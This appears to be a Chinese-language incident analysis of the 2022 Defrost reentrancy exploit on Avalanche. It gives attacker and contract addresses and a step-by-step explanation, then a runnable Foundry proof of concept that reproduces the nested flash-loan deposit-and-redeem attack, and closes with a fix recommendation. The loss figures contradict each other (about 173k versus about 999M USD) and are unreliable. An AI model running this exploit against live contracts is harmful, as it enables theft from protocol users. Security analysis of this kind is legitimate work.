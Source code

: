 ```yaml
---
title: Defrost @Reentrancy
categories: Attack_Events_Analysis
tags:
  - Reentrancy
date: 2024-04-02 10:00
---
```


#### 事件资讯

- *时间: 2022-12-23*
- *损失: ~173k usd*
- *原因：跨函数重入，合约中`flashLoan()`函数和`deposit()`函数没有重入锁，`hacker` 将`flasLoan()`借贷的 assert 在回调函数中存入合约，从而实现套利。*

#### 链上资讯

- *Chain:  Avalanche*
- *Hacker Address: 0x7373dca267bdc623dfba228696c9d4e8234469f6*
- *Attack Contract: 0x792e8f3727cad6e00c58d478798f0907c4cec340*
- *Attack Tx：0xc6fb8217e45870a93c25e2098f54f6e3b24674a3083c30664867de474bf0212d*
- *Vulnerable Contract : 0xff152e21c5a511c478ed23d1b89bb9391be6de96*
- *pair(WAVAX ,USDC)：0xf4003F4efBE8691B60249E6afbD307aBE7758adb[Joe LP Token (JLP)]*

#### 资金流向

![image-20241121161601582](Defrost@Reentrancy/image-20241121161601582.png)

#### 攻击流程

![image-20241121165147551](Defrost@Reentrancy/image-20241121165147551.png)

#### 攻击解析

> *tips: 本次攻击的核心便是使用了`lending`合约中借来的`USD`进行存款【跨函数的重入攻击】*

1. hacker 先从`pair(WAVAX ,USDC)`中借出大量 `USD1`；
2. hacker 在`pair(WAVAX ,USDC)`执行闪电贷，在攻击合约的回调函数中去调用`Lending`合约的`flashLoan()`函数，借出大量的`USD2`；
3. 此时进入二层闪电贷，在该层闪电贷中调用`lending`合约的`deposit()`函数，将`USD2`存入并获取`share`凭证，随后使用`USD1`对二层闪电贷进行还款，自此二层闪电贷结束；
4. 回到一层闪电贷中，执行`lending`合约中的`redeem()`函数，将`share`换作`USD3`，使用`USD3`对一层闪电贷进还款，自此一层闪电贷结束；
5. hacker最终获利 `~= USD3 - USD1`。



#### 攻击复现

```solidity
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.20;

import {Test} from "forge-std/Test.sol";
import {IERC20, Uni_Pair_V2, CheatCodes} from "./interface.sol";

// @KeyInfo - Total Lost : ~999M US$
// Attacker : 0x7373dca267bdc623dfba228696c9d4e8234469f6
// Attack Contract : 0x792e8f3727cad6e00c58d478798f0907c4cec340
// Vulnerable Contract : 0xff152e21c5a511c478ed23d1b89bb9391be6de96

// Attack Tx : https://snowtrace.io/tx/0xc6fb8217e45870a93c25e2098f54f6e3b24674a3083c30664867de474bf0212d

// @Info
// Vulnerable Contract Code : https://snowscan.xyz/address/0xff152e21c5a511c478ed23d1b89bb9391be6de96#code

// @Analysis
// Twitter PeckShield : https://twitter.com/PeckShieldAlert/status/1606276020276891650


interface LSWUSDC {
    function maxFlashLoan(
        address token
    ) external view returns (uint256);
    function flashFee(address token, uint256 amount) external view returns (uint256);
    function flashLoan(address receiver, address token, uint256 amount, bytes calldata data) external;
    function deposit(uint256 amount, address to) external returns (uint256);
    function redeem(uint256 shares, address receiver, address owner) external;
}

contract Defrost_Attack is Test {
    IERC20 USDC = IERC20(0xB97EF9Ef8734C71904D8002F8b6Bc66Dd9c48a6E);
    LSWUSDC LSW = LSWUSDC(0xfF152e21C5A511c478ED23D1b89Bb9391bE6de96);
    Uni_Pair_V2 Pair = Uni_Pair_V2(0xf4003F4efBE8691B60249E6afbD307aBE7758adb);
    uint256 flashLoanAmount;
    uint256 flashLoanFee;
    uint256 depositAmount;

    CheatCodes cheats = CheatCodes(0x7109709ECfa91a80626fF3989D68f67F5b1DD12D);

    function setUp() public {
        cheats.createSelectFork("Avalanche", 24_003_940);
    }

    function testExploit() public {
        flashLoanAmount = LSW.maxFlashLoan(address(USDC));
        flashLoanFee = LSW.flashFee(address(USDC), flashLoanAmount);
        Pair.swap(0, flashLoanAmount + flashLoanFee, address(this), new bytes(1));

        emit log_named_decimal_uint("[End] Attacker USDC balance after exploit", USDC.balanceOf(address(this)), 6);
    }

    function joeCall(address _sender, uint256 _amount0, uint256 _amount1, bytes calldata _data) external {
        LSW.flashLoan(address(this), address(USDC), flashLoanAmount, new bytes(1));
        LSW.redeem(depositAmount, address(this), address(this));
        USDC.transfer(address(Pair), (flashLoanAmount + flashLoanFee) * 1000 / 997 + 1000);
    }

    function onFlashLoan(
        address initiator,
        address token,
        uint256 amount,
        uint256 fee,
        bytes calldata data
    ) external returns (bytes32) {
        USDC.approve(address(LSW), type(uint256).max);
        depositAmount = LSW.deposit(flashLoanAmount, address(this));
        return keccak256("ERC3156FlashBorrower.onFlashLoan");
    }
}
```



#### 总结与建议

- 建议给涉及资金存取的函数加入重入锁，比如`flasLoan()`和`deposit()`函数。